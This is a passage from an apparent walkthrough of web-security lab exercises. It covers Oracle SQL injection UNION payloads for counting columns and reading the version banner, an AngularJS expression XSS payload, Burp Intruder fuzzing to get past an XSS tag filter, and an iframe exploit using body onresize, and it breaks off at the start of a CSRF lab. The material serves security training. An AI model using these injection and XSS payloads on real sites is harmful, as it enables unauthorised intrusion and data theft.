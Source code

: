 - To use UNION, we need to determine how many columns are returned by the request. To do this, we use the following command, combining it with the category value:

	```sql
	UNION SELECT NULL, NULL FROM dual--
	```
	> NOTE: Before the command, a single quote should be added, and spaces should be replaced with +.

	Gradually increasing or decreasing the number of NULLs allows us to determine how many columns are returned, as an incorrect number will result in an error

- After we know the number of values received, in order to get the version, we use the following command

	```sql
	UNION SELECT BANNER, NULL FROM v$version--
	```
	> NOTE: Before the command, a single quote should be added, and spaces should be replaced with +.

#### 4) DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

- In the search field, enter the following payload to call the alert function:

	```javascript
	{{constructor.constructor('alert(1)')()}}
	```

#### 5) Reflected XSS into HTML context with most tags and attributes blocked

- Open Burp's browser and use the search function in the lab. Capture the resulting request in Burp and send it to Burp Intruder. 

- Replace the search term in the request with `<>`, place the cursor between the angle brackets,
and click **Add §**. It should look like `<§§>`. Copy tags from the XSS cheat sheet and paste them
into the payload list in Burp Intruder. Start the attack. Note that most payloads cause a 400 response, but the `<body>` tag causes a 200 response.

- Replace the search term with `<body%20=1>`, place the cursor before the `=` character, and click **Add §**. Copy events from the XSS cheat sheet and paste them into the payload list. Start the attack. Note that most payloads cause a 400 response, but `onresize` causes a 200 response.

- Go to the exploit server and paste the following code, replacing `YOUR-LAB-ID` with your lab ID:
	```html
	<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
	```
	Save and deliver the exploit to the victim.

#### 6) CSRF where token validation depends on request method

- Log in using `wiener:peter` credentials via Burp's browser.

- Submit the "Update email" form and capture the request in **Proxy > HTTP history**.
